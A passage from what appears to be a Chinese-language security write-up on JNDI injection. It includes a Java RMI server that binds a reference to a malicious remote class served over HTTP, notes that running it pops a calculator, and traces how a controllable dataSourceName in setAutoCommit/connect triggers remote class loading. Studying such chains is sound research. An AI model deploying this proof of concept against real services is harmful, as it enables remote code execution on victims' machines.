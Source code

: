 ```
python -m http.server 9999
```

rmiserver.java

```java
package test;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class rmiserver {

    public static void main(String[] args) throws Exception{
        Registry registry= LocateRegistry.createRegistry(1099);

        Reference reference = new Reference("evil3", "evil3", "http://localhost:9999/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("calc", wrapper);

    }
}
```

运行即可弹出计算器：

![image-20220704160944974](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220704160944974.png)

简单分析一下：

利用反射触发setAutoCommit方法，跟进

```java
public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }

    }
```

由于第一次初始化肯定conn为null，跟进`this.connect`

![image-20220704162041022](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220704162041022.png)

我们如果控制了 `dataSourceName`就可以利用 JNDI 注入让客户端进行命令执行了，而这里`dataSourceName`恰恰可以控制，所以此处远程加载了我们HTTP服务上的恶意class

### JNDI+LDAP
